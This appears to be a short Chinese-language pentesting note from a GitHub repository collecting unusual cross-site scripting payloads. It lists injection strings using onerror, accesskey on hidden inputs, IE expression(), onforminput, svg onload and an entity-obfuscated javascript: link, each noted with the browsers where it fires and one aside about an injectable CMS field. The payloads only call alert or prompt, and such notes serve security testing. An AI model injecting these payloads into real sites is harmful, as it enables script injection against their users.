 ## XSS_另类的Payload
### 一、prompt
```html
%3Cp%3E1111111\">< img src=1 onerror=prompt('xss')>%3Cbr%2F%3E%3C%2Fp%3E
```
### 二、accesskey
将类型转换为image，将难以利用的xss漏洞无需用户交互就可以触发</br>
```html
<input type="hidden" accesskey="X" onclick="alert(0)">
```
在firefox中可以复现</br>


另： 今天在审一个cms的时候</br>
<input type="hidden" name="group_id" value="<?php echo $group_id?>" /></br>
这中就很容易构造.....</br>


<input value="" type=image src onerror=alert(1) type="hidden"></br>
chrome、ms edge可复现</br>

### 三、
```html
<input type=hidden style=x:expression(alert(1))>
```
测试于IE6-9 成功

### 四、
```html
<form><input type=hidden onforminput=alert('what?')><input></form>
```
测试于Opera12

### 五、
```html
<svg><input type=hidden onload=alert(1)>
```
测试于safari7.0.6

### 六、对标签属性值进行转码 || 插入控制字符
```html
<a href=javascr&#9ipt:alert(1)>www</a>
```
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/clipboard.png>

